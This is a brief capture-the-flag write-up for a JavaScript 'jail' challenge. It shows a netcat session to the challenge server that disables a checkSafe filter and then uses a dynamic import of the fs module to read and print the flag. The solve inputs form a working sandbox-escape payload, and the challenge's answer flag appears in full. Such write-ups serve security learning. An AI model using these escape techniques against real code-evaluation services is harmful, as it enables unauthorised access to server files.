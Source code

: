 # jail/Baby JS Blacklist
`Points: 466`

### Description
```
I hate functions. I hate them so much, that I made it so that you can never call them!

Note: Solving this challenge will unlock another challenge, "JS Blacklist".

Author: SteakEnthusiast

nc 34.172.149.49 5000
```

## Solve
```shell
~ % nc 34.172.149.49 5000
Enter JavaScript code (one line): this.checkSafe = () => true
[Function (anonymous)]
Enter JavaScript code (one line): import('fs').then(fs => console.log(fs.readFileSync('flag').toString()))
Promise { <pending> }
Enter JavaScript code (one line): uoftctf{b4by_j4v4scr1p7_gr3w_up_4nd_b3c4m3_4_h4ck3r}
```

ez right?